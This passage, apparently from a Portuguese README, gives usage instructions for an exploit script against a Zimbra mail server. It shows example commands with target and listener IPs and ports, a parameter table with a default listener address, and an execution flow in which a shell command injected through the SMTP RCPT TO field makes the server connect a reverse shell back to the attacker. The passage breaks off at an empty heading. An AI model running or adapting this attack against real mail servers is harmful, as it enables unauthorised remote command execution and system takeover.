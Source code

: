 #### **2. Executar o Exploit (Terminal 2)**

```bash
# Uso básico (usa valores padrão)
python3 exploit.py localhost

# Especificar porta SMTP
python3 exploit.py localhost -p 25

# Especificar IP e porta do listener
python3 exploit.py localhost -lh 192.168.1.100 -lp 4444

# Uso completo com todos os parâmetros
python3 exploit.py 192.168.1.50 -p 25 -lh 10.0.0.5 -lp 9999
```

#### **3. Parâmetros Disponíveis**

| Parâmetro | Descrição | Padrão |
|-----------|-----------|---------|
| `target` | IP do servidor Zimbra alvo | Obrigatório |
| `-p, --port` | Porta SMTP do alvo | 25 |
| `-lh, --lhost` | Seu IP externo para o listener | 172.27.149.248 |
| `-lp, --lport` | Porta do listener | 4444 |

#### **4. Exemplos de Uso**

```bash
# Teste local
python3 exploit.py localhost

# Servidor remoto
python3 exploit.py 192.168.1.100

# Porta SMTP não padrão
python3 exploit.py 192.168.1.100 -p 2525

# Listener em IP específico
python3 exploit.py 192.168.1.100 -lh 10.0.0.10 -lp 4444
```

### **Fluxo de Execução**

1. **Verificação de Porta**: Confirma se a porta SMTP está aberta
2. **Conexão SMTP**: Estabelece conexão com o servidor
3. **Handshake SMTP**: Executa sequência EHLO, MAIL FROM
4. **Injeção de Payload**: Envia comando no campo RCPT TO
5. **Execução**: O servidor executa o comando de shell reverso
6. **Conexão Reversa**: Shell se conecta ao seu listener

### **Fluxo Completo de Exploitação**

